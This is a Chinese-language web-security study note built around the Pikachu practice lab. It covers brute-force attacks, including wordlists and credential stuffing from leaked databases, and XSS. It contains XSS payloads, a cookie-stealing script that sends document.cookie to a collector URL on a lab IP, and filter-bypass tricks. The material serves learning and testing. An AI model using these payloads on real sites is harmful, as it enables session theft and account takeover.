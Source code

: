 # Web安全


[TOC]

## 暴力破解漏洞

暴力破解 = 连续性尝试 + 字典+ 自动化

### 有效的字典

>- 弱口令
>- 社工库，已收集的账号密码，比如脱裤收集的，可以撞库
>- 使用指定字符利用工具按照规则生成密码
>- 常用账户密码，如admin/root
>- 遵循注册时的密码要求

### 漏洞测试流程

> - 确认暴力破解的可能性，如抓包
> - 优化字典，如密码限定字符、长度
> - 配置自动化工具，如超时时间、重试次数
>
> - [常见字典](https://github.com/danielmiessler/SecLists)
> - 注意事项：字典导入时不能有中文路径

### 验证码

> - 作用
>   - 登陆暴力破解
>   - 防止机器恶意注册
> - 认证流程
>   - 登陆页面，后台生成验证码，同时使用算法生成图片，并将图片response给客户端，同时将算法生成的值全局赋值存到 SESSION中
>   - 校验验证码，客户端将认证信息和验证码一同提交，后台对提交的验证码与 SESSION里面的验证码进行比较
>   - 客户端重新刷新页面，再次生成新的验证码，验证码算法中一般包含随机函数，所以每次刷新都会改变
> - 不安全验证码 - 客户端
>   - 使用前端js实现验证码(纸老虎)
>   - 验证码在cookie容易泄露，可被获取
>   - 将验证码在前端源代码中泄露，容易被获取
> - 不安全验证码 - 服务端
>   - 验证码在后台不过期，导致可以长期被使用
>   - 验证码校验不严格，逻辑出现问题
>   - 验证码设计的太过简单或者有规律，容易被猜解
>   - session？

### 防范措施

> - 设计安全的验证码（安全的流程 + 复杂而又可用的图形）
> - 对认证错误的提交进行计数并给出限制，比如连续5次密码错误，锁定2小时
> - 必要的情况下，使用双因素认证
> - token对防止暴力破解没有用

------



## 跨站脚本漏洞 - XSS

### 跨站脚本漏洞概述

> - XSS漏洞一直被评估为web漏洞中危害较大的漏洞，在 OWASP TOP10的排名前三
>
> - XSS是一种发生在Web前端的漏洞，所以其危害的对象也主要是前端用户
>
> - XSS漏洞可以用来进行钓鱼攻击、前端js挖矿、用户 cookie 获取。甚至可以结合浏览自身的漏洞对用户主机进行远程控制
>
> - 常见类型
>
>   - 反射型，交互的数据一般不会被存在在数据库里面，一次性，一般岀现在查询类页面等
>   - 存储型，存储在数据库里面，永久性，一般岀现在留言板，注册等页面
>   - DOM型，不与后台服务器产生数据交互，是一种通过DOM操作前端代码输出的时候产生的问题，一次性，也属于反射型
>
> - 漏洞形成原因
>
>   主要原因是程序对输入和输出的控制不够严格，导致“精心构造”的脚本输入后，在输到前端时被浏览器当作有效代码解析执行从而产生危害
>
> - 测试流程
>
>   - 在目标站点上找到输入点，比如查询接口，留言板等
>   - 输入一组“特殊字符 + 唯一识别字符”，点击提交后，查看返回的源码，是否有做对应的处理
>   - 通过搜索定位到唯一字符，结合唯一字符前后语法确认是否可以构造执行js的条件（构造闭合）
>   - 提交构造的脚本代码（以及各种绕过姿势），看是否可以成功执行，如果成功执行则说明存在XS漏洞
>
> - TIPS
>
>   - 一般查询接口容易出现反射型XSS，留言板容易岀现存储型XSS
>   - 由于后台可能存在过滤措施，构造的script可能会被过滤掉，而无法生效，或者环境限制了执行(浏览器)
>   - 通过变化不同的script，尝试绕过后台过滤机制

### 反射型XSS(get)

该测试中，前台未进行输入限制，后台未进行输入转义，导致js脚本正常执行，构成反射性XSS

```
<p class='notice'>who is <script>alert('xss')</script>,i don't care!</p> 
```
对于get型XSS，payload直接放在url中

```
http://192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&submit=submit
```

> - GET方式的XSS漏洞更加容易被利用，一般利用的方式是将带有跨站脚本的url伪装后发送给目标，而POST方式由于是以表单方式提交，无法直接使用URL方式进行攻击
> - GET和POST典型区别：GET是以url方式提交数据，POST是以表单方式在请求体里面提交

### 存储型XSS

存储型XSS漏洞跟反射型形成的原因一样，不同的是存储型XSS下攻击者可以将脚本注入到后台存储起来，构成更加持久的危害，因此存储型XSS也称“永久型”XSS。

```
<p class='con'><script>alert('xss')</script></p>
```

```
http://192.168.43.65/pikachu/vul/xss/xss_stored.php
```

### DOM型XSS

[DOM举例](https://www.w3school.com.cn/tiy/t.asp?f=hdom_document_getbyid)

```
源码：<a href='"+str+"'>what do you see?</a>
payload：#' onclick="alert('xss')"/>
闭合：<a href='#' onclick="alert('xss')"/>'>what do you see?</a>
```

### 案例1：GET型XSS获取cookie

```
# 注意pkxss的路径
<script>document.location = 'http://192.168.43.65/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>
```

```
192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=<script>document.location+%3D+'http%3A%2F%2F192.168.43.65%2Fpikachu%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D'+%2B+document.cookie%3B<%2Fscript>&submit=submit
```

[什么是cookie？](https://www.jianshu.com/p/6fc9cea6daa2)

### 案例2：POST型XSS获取cookie

### 案例3：XSS钓鱼 - basic认证

### 案例4：XSS键盘记录

>**什么是跨域？**
>
>| http:// | www.   | xyz.com: | 8080 | /script/test.js |
>| ------- | ------ | -------- | ---- | --------------- |
>| 协议    | 子域名 | 主域名   | 端口 | 资源地址        |
>
>当协议、主机（主域名,子域名）、端口中的任意一个不相同时，称为不同域。我们把不同的域之间请求数据的操作，称为跨域操作。

> **跨域-同源策略**
>
> 为了安全考虑，所有的浏览器都约定了“同源策略”,，同源策略规定，两个不同域名之间不能使用JS进行相互操作。
>
> 比如: x.com域名下的javascript并不能操作y.com域下的对象。
>
> 如果想要跨域操作,则需要管理员进行特殊的配置。

### XSS盲打

> 用户提交信息，推测后台管理员会看，输出在管理员看到的页面。获取管理员cookie，冒充管理员在后台为所欲为。

### XSS绕过-过滤-转换

> 1. 前端限制绕过,直接抓包重放,或者修改html前端代码
> 2. 大小写,比如:<SCriPt>
> 3. 拼凑:<scr<script>ipt>
> 4. 使用注释进行干扰:<scri<!--test-->pt>

### XSS绕过-过滤-编码

> 核心思路:
>
> 后台过滤了特殊字符,比如<script>标签,但该标签可以被各种编码,后台不一定会过滤,当浏览器对该编码进行识别时,会翻译成正常的标签，从而执行.
>
> 注意:在使用编码时需要注意编码在输出点是否会被正常识别和翻译.
>
> 例子:
>
> <img src=x onerror=”alert('xss')" />可以把alert("xss")进行html编码
> <img src=x onerror "&#97;&# 108;&# 101;&# 114;&# 116;&#40;&#39;&# 120;&# 115;&# 115;&#39;&#41;



### XSS绕过-htmlspecialchars()使用

### XSS实战练习

> xss-lab，放在xmapp的htdocs文件夹中，打开apache，访问即可。

---

## 相关链接
[视频教程](https://www.ichunqiu.com/course/63838)[|靶场](https://github.com/zhuifengshaonianhanlu/pikachu)